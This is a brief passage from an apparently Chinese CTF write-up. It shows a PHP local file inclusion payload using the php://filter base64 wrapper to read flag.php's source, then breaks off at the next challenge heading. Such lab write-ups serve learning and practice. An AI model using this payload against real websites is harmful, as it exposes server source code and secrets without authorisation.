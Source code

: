 ![upload successful](./images/pasted-10.png)

在flag.php文件中未找到flag，由此推出flag可能被隐藏，构造payload使用base64查看
<code>
  ?file=php://filter/read=convert.base64-encode/resource=flag.php
</code>

![upload successful](./images/pasted-11.png)
得到flag

# [ACTF2020 新生赛]Exec1
